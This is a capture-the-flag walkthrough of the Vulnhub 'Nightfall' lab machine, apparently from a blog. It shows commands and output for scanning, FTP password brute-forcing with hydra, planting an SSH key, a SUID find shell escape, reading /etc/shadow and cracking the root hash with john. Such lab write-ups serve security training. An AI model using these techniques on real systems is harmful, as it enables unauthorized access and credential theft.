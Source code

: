 ```yaml
---
title: "Vulnhub: Nightfall"
layout: archive
date:   2021-01-05
tags: Vulnhub
tags_label: true
---
```

This is a beginner-level machine part of the sunset series from vulnhub. I would definitely recommend it, it will expose you to some essential skills/concepts

### Scanning:

Begin by finding the machine on the network:

```
crazyeights@es-base:~$ nmap -PS 192.168.0.1-255

Nmap scan report for 192.168.0.203
Host is up (0.00012s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

Find more details about running services. Only other important detail found was the domain name `nightfall`

```
crazyeights@es-base:~$ sudo nmap -sCSV 192.168.0.203
[SNIP]
```

### Web:

Nothing on the web server, just the default page.

### SMB:

List available shares:

```
crazyeights@es-base:~$ smbclient -L \\nightfall -I 192.168.0.203 -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
SMB1 disabled -- no workgroup available
```

There are no available shares, using enum4linux to find users:

```
enum4linux 192.168.0.203
...
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\nightfall (Local User)
S-1-22-1-1001 Unix User\matt (Local User)
```

*   we find two local users nightfall, and matt
    
*   Try to get the password for a user for another of the running services:
    

```
crazyeights@es-base:~$ hydra -l matt -P lists/rockyou-40.txt ftp://192.168.0.203
[SNIP]
[DATA] attacking ftp://192.168.0.203:21/
[21][ftp] host: 192.168.0.203   login: matt   password: cheese
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-05 17:48:17
crazyeights@es-base:~$ 
```

### FTP:

Login as matt:

```
crazyeights@es-base:~$ ftp 192.168.0.203
Connected to 192.168.0.203.
220 pyftpdlib 1.5.5 ready.
Name (192.168.0.203:crazyeights): matt
331 Username ok, send password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Look for available files:

```
ftp> ls
200 Active data connection established.
125 Data connection already open. Transfer starting.
-rw-------   1 matt     matt            0 Aug 28  2019 .bash_history
-rw-r--r--   1 matt     matt          220 Aug 26  2019 .bash_logout
-rw-r--r--   1 matt     matt         3526 Aug 26  2019 .bashrc
drwx------   3 matt     matt         4096 Aug 28  2019 .gnupg
drwxr-xr-x   3 matt     matt         4096 Aug 26  2019 .local
-rw-r--r--   1 matt     matt          807 Aug 26  2019 .profile
-rw-------   1 matt     matt            0 Aug 28  2019 .sh_history
226 Transfer complete.
```

*   There is no interesting information in any of the files
*   The ftp servier is writable though

Create a folder .ssh to add our public key as an authorized key allowing for us to login via SSH:

```
ftp> mkdir .ssh
257 "/.ssh" directory created.
ftp> cd .ssh
250 "/.ssh" is the current directory.
ftp> dir
200 Active data connection established.
125 Data connection already open. Transfer starting.
226 Transfer complete.
ftp>
```

*   create a public-private key pair with `ssh-keygen` if you do not have one already
*   Copy your public key to file authorized keys:

```
crazyeights@es-base:~$ cp .ssh/id_rsa.pub authorized_keys
```

Upload the file authorized_keys to the folder .ssh on the ftp server:

```
ftp> put authorized_keys
local: authorized_keys remote: authorized_keys
200 Active data connection established.
125 Data connection already open. Transfer starting.
226 Transfer complete.
573 bytes sent in 0.01 secs (63.6961 kB/s)
ftp> 
```

### User:

We can now login as matt via SSH:

```
crazyeights@es-base:~$ ssh matt@192.168.0.203
Linux nightfall 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) x86_64

matt@nightfall:~$ 
```

There are only two users on the machine matt and nightfall:

```
matt@nightfall:~$ ls /home
matt  nightfall
```

Find programs matt can run acting as a different user:

```
matt@nightfall:~$ find / -perm /4000 2>/dev/null
/scripts/find
```

The binary scripts/find seems promising:

```
matt@nightfall:/scripts$ ls
find
```

Testing running it we determine it is the same as normal find:

```
matt@nightfall:/scripts$ ./find / -name "index.html"
```

Like with normal find we can use the exec param to get a shell:

Getting the user flag:

```
matt@nightfall:/scripts$ ./find . -exec /bin/sh -p \; -quit
$ cd /home/nightfall
$ ls
user.txt
$ cat user.txt
97fb7140ca325ed96f67be3c9e30083d
```

### Root:

To elevate our privileges to that of the user nightfall we can copy the authorized\_keys we made earlier to `nightfall/.ssh/authorized_keys` allowing us to login to SSH as nightfall:

```
matt@nightfall:/scripts$ ./find . -exec /bin/sh -p \; -quit
$ id            
uid=1001(matt) gid=1001(matt) euid=1000(nightfall) egid=1000(nightfall) groups=1000(nightfall),1001(matt)
$ mkdir /home/nightfall/.ssh
$ cp /home/matt/.ssh/authorized_keys /home/nightfall/.ssh/authorized_keys
$ 
```

Logging in as nightfall:

```
crazyeights@es-base:~$ ssh nightfall@192.168.0.203
Linux nightfall 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) x86_64

Last login: Wed Aug 28 18:35:04 2019 from 192.168.1.182
nightfall@nightfall:~$ ls
user.txt
```

Find what programs the user nightfall can run with elevated privileges:

```
nightfall@nightfall:~$ sudo -l
Matching Defaults entries for nightfall on nightfall:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nightfall may run the following commands on nightfall:
    (root) NOPASSWD: /usr/bin/cat
```

*   The user nightfall can run cat as root, meaning we can read all files as root
*   Reading the shadow file to retrieve passwords:

```
nightfall@nightfall:/tmp$ sudo cat /etc/shadow
root:$6$JNHsN5GY.jc9CiTg$MjYL9NyNc4GcYS2zNO6PzQNHY2BE/YODBUuqsrpIlpS9LK3xQ6coZs6lonzURBJUDjCRegMHSF5JwCMG1az8k.:18134:0:99999:7:::
```

Copy the hash to a file and crack it using john:

```
crazyeights@es-base:~$ john --wordlist=lists/rockyou-40.txt -rules nightfall_root_pass 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
miguel2          (root)
1g 0:00:00:06 DONE (2021-01-05 20:07) 0.1587g/s 4876p/s 4876c/s 4876C/s IUBITA..mariajose2
Use the "--show" option to display all of the cracked passwords reliably
Session completed
crazyeights@es-base:~$ 
```

Login as root:

```
nightfall@nightfall:/tmp$ su root
Password: 
```

Retrieve the root flag:

```
root@nightfall:~# cat root_super_secret_flag.txt 
Congratulations! Please contact me via twitter and give me some feedback! @whitecr0w1
[SNIP]
Thank you for playing! - Felipe Winsnes (whitecr0wz)                                 

flag{9a5b21fc6719fe33004d66b703d70a39}

root@nightfall:~#
```

FIN.